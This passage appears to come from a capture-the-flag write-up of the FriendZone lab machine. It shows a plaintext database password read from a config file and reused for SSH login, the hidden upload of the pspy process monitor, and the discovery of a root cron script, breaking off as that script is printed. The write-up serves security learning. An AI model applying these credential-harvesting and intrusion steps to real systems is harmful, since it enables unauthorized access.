 First of all we see if we can read the user.txt flag and we can!

Poking around at the file system we notice a mysql_data.conf file with some creds in it:
```
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

We remember that SSH is also on the box, so checking for credential reuse, we attempt to log in to SSH using the creds from the mysql_data file:
```
root@kali: ssh friend@10.10.10.123
The authenticity of host '10.10.10.123 (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.123' (ECDSA) to the list of known hosts.
friend@10.10.10.123's password: Agpyu12!0.213$
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ 

```
Now that we are in as user. we need to escalate. Sudo and the usual enumeration helps, but nothing we can leaverage yet. So we make use of a tool. use SCP to copy pspy onto the box and have it running in the background while we manually do some enumeration.
```
root@kali: scp pspy64 friend@10.10.10.123:/tmp/.pspy64
...
root@kali: ssh friend@10.10.10.123
...
friend@FriendZone:/tmp$ chmod 755 .pspy64 
friend@FriendZone:/tmp$ ./.pspy64 -f
...
2019/07/12 14:12:01 CMD: UID=0    PID=2015   | /usr/bin/python /opt/server_admin/reporter.py 
2019/07/12 14:12:01 CMD: UID=0    PID=2014   | /bin/sh -c /opt/server_admin/reporter.py 
2019/07/12 14:12:01 CMD: UID=0    PID=2013   | /usr/sbin/CRON -f 
2019/07/12 14:12:01 FS:                 OPEN | /usr/lib/python2.7/site.py
2019/07/12 14:12:01 FS:                 OPEN | /usr/lib/python2.7/site.pyc
2019/07/12 14:12:01 FS:               ACCESS | /usr/lib/python2.7/site.pyc
2019/07/12 14:12:01 FS:        CLOSE_NOWRITE | /usr/lib/python2.7/site.pyc
2019/07/12 14:12:01 FS:                 OPEN | /usr/lib/python2.7/os.py
2019/07/12 14:12:01 FS:                 OPEN | /usr/lib/python2.7/os.pyc
2019/07/12 14:12:01 FS:               ACCESS | /usr/lib/python2.7/os.pyc
2019/07/12 14:12:01 FS:        CLOSE_NOWRITE | /usr/lib/python2.7/os.pyc
2019/07/12 14:12:01 FS:                 OPEN | /usr/lib/python2.7/posixpath.py
20
```
Coming back to pspy we notice that there is a script running regularly as root. time to take a look at it:
```
friend@FriendZone:~$ cat /opt/server_admin/reporter.py
#!/usr/bin/python

```
